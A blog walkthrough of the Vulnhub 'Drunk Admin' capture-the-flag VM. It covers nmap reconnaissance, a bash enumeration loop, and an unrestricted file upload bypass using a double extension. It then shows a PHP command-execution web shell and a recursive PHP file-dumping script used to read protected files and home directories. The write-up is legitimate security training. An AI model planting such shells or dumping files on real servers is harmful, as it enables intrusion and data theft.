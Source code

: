 ```yaml
---
layout: blog
title: Drunk Admin challenge
date:   2017-03-07 19:30:00 +0100
categories: itsec
comments: true
---
```


## Intro
This walkthrough is about the [Drunk Admin](https://www.vulnhub.com/entry/drunk-admin-web-hacking-challenge-1,14/) challenge, I've found on [Vulnhub](https://www.vulnhub.com/). Just download the zip file, and create a VirtualBox machine from it, and you are ready to go.

## Recon
You can just log in to the console of the virtual machine with the credentials root:toor to find out the ip, or run the command `nmap -sP 192.168.58.1/24` for a ping sweep. Just make sure to use your own ip range. In my case, the host is 192.168.58.101, so I will use this address later.
Let's check the open ports of the machine, to find out possible vulnerable services, with `sudo nmap -A -O -p 1-65535 192.168.58.101`. The result is the following:
```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-06 23:11 CET
Nmap scan report for 192.168.58.101
Host is up (0.00063s latency).
Not shown: 64998 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze1 (protocol 2.0)
| ssh-hostkey: 
|   1024 57:a2:04:3d:6e:e5:01:7b:b4:c6:e5:f9:76:25:8a:8a (DSA)
|_  2048 66:9a:ee:a2:2a:1a:59:47:b9:c5:50:da:a6:96:76:16 (RSA)
8880/tcp open  http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Tripios
MAC Address: 08:00:27:06:12:7C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.26 - 2.6.35, Linux 2.6.32
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.58.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.06 seconds
```
Great, this means we have a running apache on port 8880, let's check it in a browser. It should look like this:
![Drunk Admin home page]({{ site.url }}/assets/images/drunk-admin-1.png)

## Explore the website
If you click on the PHP link on the bottom of the page, it leads to http://192.168.58.101:8880/myphp.php?id=102 . This is very suspicios, it seems like the id parameter can be tricked. There is a small shell script to scrape all the results in the range of 1 to 200, excluding the ones, which are protected by the php script, saying "Try harder".
[enummyphp.sh](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/enummyphp.sh)
```bash
#!/bin/bash
for N in {1..200}
do
    echo $N
    curl "http://192.168.58.101:8880/myphp.php?id=$N" > tmp
    if ! grep -q "Try harder" "tmp"; then
        cp tmp "$N.html"
        echo "http://192.168.58.101:8880/myphp.php?id=$N"
    fi
done
```
The results of the following script are:
* 101.html
* 102.html
* 104.html
* 108.html
* 116.html
* 132.html
* 164.html
* 99.html

All are phpinfo results, 99 is the full one, and 132 is the $\_SERVER variables. However, it is not a real exploit, so let's try to dig deeper. However, this information can be useful in the future.

## Exploit the website

Going through the website, the low hanging fruit is upload.php, which uploads a user specified picture, and provides a link for it, which looks like some hash, plus the extension. So the image upload works fine, as designed, but what happens, if I try to upload a php file? It seems like there is a restriction about file extensions, which is a great security feature, but does it work as designed?

Let's try to upload a file named sample.php.jpg. It doesn't display an error, however it doesn't display and image as well. After some digging in the request/response data, there is a suspicios cookie, named trypios, which contains a hash. What if I try to access this file in a way how images are stored, but with the hash plus php extesion? It actually works, and displays the result of the `phpinfo();` function. This vulnerability by [OWASP](https://www.owasp.org/) is specified as [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload). Let's see what we can do with this.

My first guess was to try to get a [Command Injection](https://www.owasp.org/index.php/Command_Injection), by uploading a vulnerable php script, which enables a user to execute any command under the web server's user privileges. It looks like this:

```php
<?php
exec($_GET['cmd']);
?>
```

Which results in a "Oh, you are naughty" message. After further investigation, my guess was that the upload script somehow verifies the content of the uploaded file, and disallows either the php function call exec, or the access of the variable $\_GET. But this doesn't stop me to enumerate the whole content of the webserver's root directory!

## Can I haz all the files?

So I created a simple php script to go through the whole content of the webserver, and print it. For the first try, it gave me some garbage, obviously the binary content of the uploaded images were present, so I had to exclude those. But what exclusion rule would be better, than the drunk admin's own?:)

[dirlist.jpg.php](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/dirlist.jpg.php)
```php
<?php 
function sd($dir){
	$dc = scandir($dir);
	foreach($dc as $f){
		if($f == "." || $f == ".." || preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $f)) continue;
		$f = $dir."/".$f;
		print $dir.$f."\n";
		if(is_dir($f)){
			print "dir";
			sd($f);
		}elseif(is_file($f)){
			print("<h3>$f</h3>");
			print_r(file_get_contents($f));
		}
    }
}
sd("../");
?>
```
Let's see what we got! There is a file, which is not accessible by the public, it has been disabled by an .htaccess configuration rule, which is a great practice, but php can read it regardless, and this is our next step. The filename is .proof, and the content is:

```
# Drunk Admin Challenge #
#     by @anestisb  #
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
```
Gotcha. At least we know the message, but not the place. What is this secret code for? Let's try to dig deeper.

## Solution
As we have seen previously, the [mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) is enabled, which allows users to share their content on the webserver, by creating a directory named public_html in their home directory. What if I'm very greedy, and try to get all the contents of the home directories in the system, by using the php script I used to enumerate the root of the webserver?

So it seems, there is a user called bob, who uses this feature of [Apache](https://httpd.apache.org/). And in the folder /home/bob/public_html, we can find some very interesting content. After trying to input the secret from the previous message to http://192.168.58.101/~bob/, and receiving some garbage, I went through the contents of other php files, eg. encrypt.php. So it seems like bob uses [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) to hide his secret from us. But this code doesn't return any useful answer, and after checking the actual index.php script, the cipher looks like some base64 encoded string. Decoding the secret with base64, and posting to index.php reveals the last information for the secret meeting:
```
Alice, prepare for a kinky night. Meet me at '35.517286' '24.017637'
```
It's time to travel to Crete!

